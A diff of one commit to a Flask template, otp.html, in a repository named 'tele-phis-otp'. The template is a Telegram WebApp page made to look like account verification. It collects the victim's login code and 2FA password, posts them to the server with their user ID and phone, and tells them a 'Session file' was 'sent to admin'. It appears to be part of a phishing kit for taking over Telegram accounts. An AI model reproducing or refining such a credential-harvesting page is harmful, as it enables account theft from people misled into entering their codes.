

Before and after one commit to hahyt6644-gif/tele-phis-otp, a Flask app: template templates/otp.html in a window 1280 px wide. Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it: most values are stand-ins (such as "Sample title", 1, 10 or a date in 2020); some libraries are stand-ins or nearby versions.

Commit message:
Update otp.html

```diff
--- a/templates/otp.html
+++ b/templates/otp.html
@@ -151,17 +152,6 @@
             100% { transform: rotate(360deg); }
         }
 
-        .resend-link {
-            text-align: center;
-            margin-top: 15px;
-        }
-
-        .resend-link a {
-            color: #667eea;
-            text-decoration: none;
-            font-size: 14px;
-        }
-
         .hidden {
             display: none;
         }
@@ -213,10 +203,10 @@
 
                 <div class="error" id="error-message"></div>
 
-                <p style="text-align: center; color: #666; margin-bottom: 20px;">
+                <div class="info-text">
                     Enter the 5-digit code sent to your phone<br>
                     <small>Format: 9 4 3 8 0 or 94380</small>
-                </p>
+                </div>
 
                 <div class="otp-inputs">
                     <input type="text" class="otp-input" maxlength="1" oninput="moveToNext(this, 1)" autocomplete="off">
@@ -228,8 +218,8 @@
 
                 <button class="btn" onclick="verifyOTP()" id="verify-btn" disabled>Verify OTP</button>
 
-                <div class="resend-link">
-                    <a href="#" onclick="resendOTP()">Resend OTP</a>
+                <div class="info-text" style="margin-top: 15px;">
+                    <a href="#" onclick="startOver()">Start Over</a>
                 </div>
             </div>
 
@@ -241,9 +231,9 @@
 
                 <div class="error" id="password-error"></div>
 
-                <p style="text-align: center; color: #666; margin-bottom: 20px;">
+                <div class="info-text">
                     Enter your 2FA password
-                </p>
+                </div>
 
                 <input type="password" id="password-input"
                        placeholder="2FA password" autocomplete="off">
@@ -266,26 +256,31 @@
                     <div class="success-icon">✅</div>
                     <h2>Verified Successfully!</h2>
                     <p>Your account has been verified.</p>
-                    <p><small>Details sent to admin</small></p>
-                    <p style="color: #666; font-size: 14px; margin-top: 10px;">
-                        Closing in <span id="countdown">5</span> seconds...
-                    </p>
+                    <p><small>Session file sent to admin</small></p>
+                    <div style="margin-top: 20px;">
+                        <p style="color: #666; font-size: 14px;">
+                            Closing in <span id="countdown">5</span> seconds...
+                        </p>
+                    </div>
                 </div>
             </div>
         </div>
     </div>
 
     <script>
-        // Get session ID and phone from template variables
-        const sessionId = '{{ session_id }}';
+        // Get user ID and phone from template variables
+        const userId = '{{ user_id }}';
         const phoneNumber = '{{ phone }}';
 
         let otpCode = '';
 
         // Initialize
         document.addEventListener('DOMContentLoaded', function() {
-            if (!sessionId) {
-                showError('Session expired or invalid. Please share contact again.');
+            Telegram.WebApp.ready();
+            Telegram.WebApp.expand();
+
+            if (!userId) {
+                showError('Session expired. Please share contact again.');
                 return;
             }
 
@@ -327,7 +322,7 @@
                     'Content-Type': 'application/json',
                 },
                 body: JSON.stringify({
-                    session_id: sessionId,
+                    user_id: userId,
                     otp: otpCode
                 })
             })
@@ -357,9 +352,10 @@
             });
         }
 
-        function resendOTP() {
-            alert('Please start over to receive new OTP.');
-            window.location.href = '/';
+        function startOver() {
+            if (confirm('Start over and share contact again?')) {
+                window.location.href = '/';
+            }
         }
 
         function showPasswordScreen() {
@@ -393,7 +389,7 @@
                     'Content-Type': 'application/json',
                 },
                 body: JSON.stringify({
-                    session_id: sessionId,
+                    user_id: userId,
                     password: password
                 })
             })
@@ -458,30 +454,21 @@
         }
 
         function closeApp() {
-            // Close the WebApp
-            if (window.Telegram && Telegram.WebApp) {
-                Telegram.WebApp.close();
-            } else {
-                // Fallback for testing
-                alert('Verification complete! You can close this window.');
-            }
+            Telegram.WebApp.close();
         }
 
-        // Add keyboard shortcuts
+        // Keyboard shortcuts
         document.addEventListener('keydown', function(event) {
-            // Enter key submits OTP
             if (event.key === 'Enter' && !document.getElementById('otp-screen').classList.contains('hidden')) {
                 if (otpCode.length === 5) {
                     verifyOTP();
                 }
             }
 
-            // Enter key submits password
             if (event.key === 'Enter' && !document.getElementById('password-screen').classList.contains('hidden')) {
                 verifyPassword();
             }
 
-            // Escape key goes back
             if (event.key === 'Escape' && !document.getElementById('password-screen').classList.contains('hidden')) {
                 backToOTP();
             }
```
Also changed, not shown: other parts of templates/otp.html (+1 -0 lines).
